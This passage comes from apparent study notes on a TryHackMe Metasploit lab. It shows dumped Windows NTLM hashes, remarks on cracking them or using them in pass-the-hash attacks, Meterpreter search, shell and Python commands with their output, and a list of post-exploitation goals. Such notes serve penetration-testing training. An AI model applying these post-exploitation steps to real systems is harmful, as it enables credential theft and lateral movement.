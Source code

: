 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

* Not mathematically possible to 'crack' the hashes.
* May still discover the cleartext password using online NTLM databases or a rainbow table attack.
* Hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.

#### **Search** <a href="#id-7v5co112qexw" id="id-7v5co112qexw"></a>

* Useful to locate files with potentially sensitive information.

meterpreter > search -f flag2.txt

Found 1 result...

c:\Windows\System32\config\flag2.txt (34 bytes)

#### **Shell** <a href="#nwy2mlwnfheg" id="nwy2mlwnfheg"></a>

* Launches a regular command-line shell on the target system.
* CTRL+Z will go back to the Meterpreter shell.

meterpreter > shell

Process 2124 created.

Channel 1 created.

Microsoft Windows \[Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

### **Post-Exploitation Challenge** <a href="#g8zu8ub85mmo" id="g8zu8ub85mmo"></a>

* Can use the load command to leverage additional tools such as Kiwi or even the whole Python language.

meterpreter > load python

Loading extension python...Success.

meterpreter > python\_execute "print 'TryHackMe Rocks!'"

\[+] Content written to stdout:

TryHackMe Rocks!

* Post-exploitation phase will have several goals.
  * Gathering further information about the target system.
  * Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
  * Privilege escalation.
  * Lateral movement.
